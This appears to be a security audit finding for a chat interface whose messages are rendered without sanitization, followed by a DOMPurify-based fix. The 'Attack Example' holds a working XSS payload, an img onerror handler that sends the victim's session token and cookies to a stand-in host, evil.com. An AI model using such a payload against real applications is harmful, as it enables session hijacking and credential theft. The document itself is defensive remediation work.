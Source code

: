 **Vulnerability:**
- Chat messages rendered as-is without sanitization
- Attacker can inject `<script>`, `<img onerror>`, `<iframe>` tags
- Enables token theft, session hijacking, phishing

**Attack Example:**
```javascript
// Attacker sends this message:
`<img src=x onerror="fetch('https://evil.com/steal', {
  method: 'POST',
  body: JSON.stringify({
    token: localStorage.getItem('livekit-token'),
    cookies: document.cookie
  })
})">`

// Victim's browser executes onerror handler
// Attacker receives victim's token and cookies
```

**Minimal Fix:**

Install DOMPurify:
```bash
npm install isomorphic-dompurify
```

**Option 1: Strip all HTML (recommended):**
```typescript
import DOMPurify from 'isomorphic-dompurify'

<p
  className="break-words text-sm leading-relaxed whitespace-pre-wrap"
  dangerouslySetInnerHTML={{
    __html: DOMPurify.sanitize(msg.text, {
      ALLOWED_TAGS: [], // No HTML tags allowed
      ALLOWED_ATTR: [], // No attributes allowed
      KEEP_CONTENT: true, // Keep text content
    })
  }}
/>
```

**Option 2: Allow safe formatting (bold, italic, links):**
```typescript
<p
  className="break-words text-sm leading-relaxed whitespace-pre-wrap"
  dangerouslySetInnerHTML={{
    __html: DOMPurify.sanitize(msg.text, {
      ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'br'],
      ALLOWED_ATTR: {
        'a': ['href', 'title', 'target'],
      },
      ALLOWED_URI_REGEXP: /^https?:\/\//i, // Only http(s) links
    })
  }}
/>
```
